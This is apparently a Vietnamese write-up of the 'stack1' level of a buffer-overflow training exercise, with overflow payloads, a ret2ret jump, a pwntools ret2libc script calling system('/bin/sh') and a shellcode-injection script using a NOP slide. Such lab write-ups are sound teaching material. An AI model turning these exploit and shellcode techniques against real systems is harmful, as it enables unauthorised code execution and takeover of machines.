 # Stack 1

## Description

![description](description.png)

Khi chạy chương trình yêu cầu truyền vào 1 argument. Chúng ta cùng xem thử qua hàm main nhé.
![main](main.png)

![main2](main2.png)

bỏ qua phần check arg vào main, chúng ta quan tâm từ main+35. Nhìn qua thì nó tương tự bài stack0, chúng ta có thể ghi đè modified, thay đổi EIP. Và modified yêu cầu một giá trị cụ thể chứ ko chỉ là khác 0 như bài trước, đó là: `0x61626364`. Và một điểm khác hàm strcpy từ arg[1] vào buf thay vì hàm gets.

## Solution

### Buffer overflow

`payload: ./stack1 $(python -c 'print "a"*64+"\x64\x63\x62\x61"')`

### Ret2ret 

cho EIP jump về  `0x080484b2`. phần padding vẫn là 80byte giống stack0.

`payload: ./stack1 $(python -c 'print "a"*80 + "\x08\x04\x84\xb2"')`

![ret2ret](ret2ret.png)

## spawn shell

bài này tương tự stack0, ta chỉ cần thay đổi script 1 chút.

### System()

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack1')

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = 80*b'b' #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)

#run process with arg payload
p = process(['./stack1', payload])
p.interactive()
```

### inject shellcode

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack1')

padding = b'a'*80
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process(['./stack1', payload])
p.sendline(payload)
p.interactive()
```

![shell1](shell1.png)